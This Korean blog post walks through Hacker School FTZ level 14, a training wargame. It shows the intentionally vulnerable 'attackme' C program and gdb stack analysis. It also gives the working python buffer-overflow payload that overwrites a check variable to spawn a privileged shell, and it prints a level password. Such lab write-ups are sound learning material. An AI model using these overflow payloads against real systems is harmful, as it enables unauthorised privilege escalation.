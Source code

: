 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 14"
description: "Do you know the canary (2)?"
comments: true
categories: [FTZ]
tags: [FTZ]
---
```


<img data-action="zoom" src='{{ "assets/ftz/level14/1.jpg" | relative_url }}' alt='relative'>  

## 1) level14/what that nigga want? 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level14/2.png" | relative_url }}' alt='relative'>  

``` c
// attackme 프로그램의 소스파일
#include <stdio.h>
#include <unistd.h>

main()
{ int crap;
  int check;
  char buf[20];
  fgets(buf,45,stdin);
  if (check==0xdeadbeef)
   {
     setreuid(3095,3095);
     system("/bin/sh");
   }
}
```

이번에도 attackme 프로그램을 실행시켜 버퍼 오버플로우를 일으켜 shell을 획득하는 문제로 보입니다.  
/tmp 디렉토리에 힌트에 적힌 소스코드를 복사해 파일을 하나 만듭니다.  
(저의 경우 소스코드는 at.c 파일명으로 저장했으며, 실행파일의 이름은 at로 지정했습니다.)  

그다음 gdb로 돌려 스택의 구성을 살펴보겠습니다.  

## 2) 해당 소스코드의 스택 구조 파악하기  

<img data-action="zoom" src='{{ "assets/ftz/level14/3.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level14/4.png" | relative_url }}' alt='relative'>  

어셈블리어 코드를 보면 그림과 같이 스택이 구성되어 있다는 것을 알 수 있습니다.  


사용자에게 문자열을 입력받은 뒤, &\[ebp-16\] 주소에 0xdeadbeef이 저장되어 있는지 확인하는 코드에서 브레이크를 걸고 실행해봅니다.  

``` bash
b *main+48
r <<< $(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"')
```  

<img data-action="zoom" src='{{ "assets/ftz/level14/5.png" | relative_url }}' alt='relative'>  

입력한 내용과 같이 buf 배열의 길이는 20이지만 버퍼 오버플로우가 발생하여 사용자가 입력한 문자열 45 byte(문자열의 끝을 의미하는 NULL까지 더한 값) 모두 스택에 저장되어 있는 것을 볼 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level14/6.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./at
```

at 프로그램에 적용해보면 shell이 실행되는 것을 볼 수 있습니다.  

## 3) attackme 프로그램에 버퍼 오버플로우 일으키기  

<img data-action="zoom" src='{{ "assets/ftz/level14/7.png" | relative_url }}' alt='relative'>  

``` bash
(python -c 'print "\x90"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme
```

attackme 프로그램에 적용해 level15 권한으로 shell을 실행시켰으며 level15의 비밀번호를 획득했습니다.  